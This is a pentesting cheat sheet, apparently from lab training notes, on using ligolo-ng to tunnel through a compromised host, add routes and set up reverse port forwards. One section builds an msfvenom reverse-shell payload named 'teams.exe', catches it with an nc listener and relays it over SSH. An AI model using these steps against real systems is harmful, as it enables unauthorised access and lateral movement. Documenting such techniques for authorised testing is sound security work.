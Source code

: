 # ligolo-ng

## Overview

Ligolo-ng is a simple, lightweight and fast tool that allows pentesters to establish tunnels from a reverse TCP/TLS connection using a tun interface (without the need of SOCKS).


## Usage

Example Scenario:

Lets say that we are connected to a vpn and we can talk with a machine called MS01. Then in this machine we can talk to a DC01. Ligolo can help us tunnel through MS01 directly to DC01, so that we can do from our local machine this:

    ping DC01

First download the ligolo agent to the MS01 machine and the ligolo proxy to run it in our local machine

Then in the localhost create the ligolo interface:

    sudo ip tuntap add user kali mode tun ligolo

Then start the interface:

    sudo ip link set ligolo up

Then start the proxy in the localhost:

    ./proxy -selfcert -laddr 0.0.0.0:<desired_proxy_port>

Then on the machine MS01, start the agent:

    agent.exe --connect <ip_of _the_proxy>:<port_of_the_proxy> -retry -ignore-cert

Back on the proxy, after the agent has joined:

    session
    <choose the session for the agent that just connected>
    start

Then add the route to DC01 to the interface:

    sudo ip route add <subnet_mask_dc01> dev ligolo

For example

    sudo ip route add 10.10.1.0/24 dev ligolo

Finally you should be able now to simple do:

    ping DC01

And the icmp packets will be route through MS01 to DC01

## Reverse Port Forward through agent to proxy

When the proxy is running in localhost. In a ligolo session, use the listener_add to start a reverse port forward through the agent to the proxy:

    listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp

This will create a TCP listening socket on the agent (0.0.0.0:1234) and redirect connections to the 4321 port of the proxy server.

## Reverse shell Through agent to proxy

Let's say we have a server DC01 that can connect to A1, but not to our localhost. Our localhost as a ligolo proxy set and A1 has a ligolo agent running and a session has been started between our localhost proxy and the agent of A1. To start a revershell from DC01 to our local host we can do:

First in the proxy we create a listener in the session of A1.

```
listener_add --addr 0.0.0.0:443 --to 127.0.0.1:443 --tcp
```

This means that any connection to A1 on port 443 will be forwards to our localhost:443.

Then we create a msfvenom payload from DC01 to A1 port 443:

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[A1_IP_ADDRESS] LPORT=443 -f exe -o teams.exe
```

We create our nc listener on port 443 in our localhost

```shell
nc -nvlp 443
```

Finally we upload the teams.exe payload to DC01 and run it. If there is an error with our ligolo listener, we can remove it and instead do port forwarding from A1 to our localhost with chisel or ssh:

```shell
ssh -i root.key -R [A1_IP_ADDRESS]:443:0.0.0.0:443 root@[A1_IP_ADDRESS] -vN
```


## Cleaning up

After using ligolo, you can delete the created interface with:

```shell
sudo ip link delete ligolo
```

This will also delete the routes created.

## Tips

When using nmap, you should use --unprivileged or -PE to avoid false positives.

```shell
nmap -Pn -oN dc01_nmap.out --unprivileged DC01.INLANEFREIGHT.LOCAL

nmap -Pn -oN dc01_nmap.out --unprivileged -iL live_hosts


## More Information

https://github.com/nicocha30/ligolo-ng
